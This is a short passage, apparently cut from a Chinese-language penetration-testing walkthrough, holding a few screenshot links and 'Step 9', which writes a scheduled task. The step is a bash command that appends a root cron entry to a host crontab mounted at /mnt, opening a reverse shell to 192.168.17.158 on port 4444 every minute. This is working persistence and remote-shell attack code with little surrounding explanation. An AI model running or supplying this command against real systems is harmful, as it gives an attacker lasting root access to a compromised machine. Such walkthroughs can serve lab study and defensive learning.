 [![](assets/1701826061-20776aaed0adfa4927ee0d164a1bd924.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025165313-ee8ed612-7313-1.png)  
[![](assets/1701826061-2454090321fa56c47f73f62097fcdb94.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025165322-f3affc8e-7313-1.png)

Step 9：之后写计划任务

```bash
echo -e "* * * * * root bash -i >& /dev/tcp/192.168.17.158/4444 0>&1\n" >> /mnt/etc/crontab
```
